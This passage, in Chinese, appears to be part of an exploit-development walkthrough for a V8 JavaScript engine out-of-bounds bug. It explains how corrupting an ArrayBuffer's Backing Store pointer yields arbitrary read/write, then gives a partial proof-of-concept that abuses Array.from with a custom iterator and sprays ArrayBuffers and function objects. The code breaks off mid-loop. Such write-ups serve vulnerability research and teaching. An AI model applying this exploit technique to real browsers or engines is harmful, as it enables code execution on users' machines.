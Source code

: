 我们现在拥有的能力是读到`Code`字段的值，但是我们需要读`Code+0x5F`的值，那么如何构造任意读和任意写的原语呢？

这里要提到另一种数组TypedArray，比如uint8Array，uint32Array之类的，它有一个`ArrayBuffer`字段，这种数组的真实数据存储在`ArrayBuffer`字段指向的`Backing Store`字段指向的内存

![IMAGE](/assets/resources/A3F2D443428D4E57BAFA840DFF68097D.jpg)

我们如果可以修改掉ArrayBuffer的`Backing Store`，那么我们对ArrayBuffer的操作，就可以变成对任意有权限读写的地址的操作

如下修改Poc，我们在迭代结束后，在内存里加入一百个ArrayBuffer对象，然后对后面的内存进行暴搜，标志位是长度`0x1234`，然后我们将长度位改为`0x1212`用于标记是哪个ArrayBuffer被修改
```javascript
function func_to_overwrite() {
    let sum = 0;
    for (let i = 0;i < 0x100; i++) {
        sum += i;
    }
    return sum;
}

for (let i = 0; i < 1000; i++) {
    func_to_overwrite();
}

console.log("======> func_to_overwrite");
%DebugPrint(func_to_overwrite);

let maxSize = 1024 * 8;
let bufs = [];
let objs = [];
let oobArray = [1.1];
Array.from.call(function() { return oobArray }, {[Symbol.iterator] : _ => (
    {
        counter : 0,
        next() {
            let result = this.counter++;
            if (this.counter == maxSize) {
                oobArray.length = 5;
                for (let i = 0; i < 100; i++) {
                    bufs.push(new ArrayBuffer(0x1234));
                    let obj = {'a': 0x4321, 'b': func_to_overwrite};
```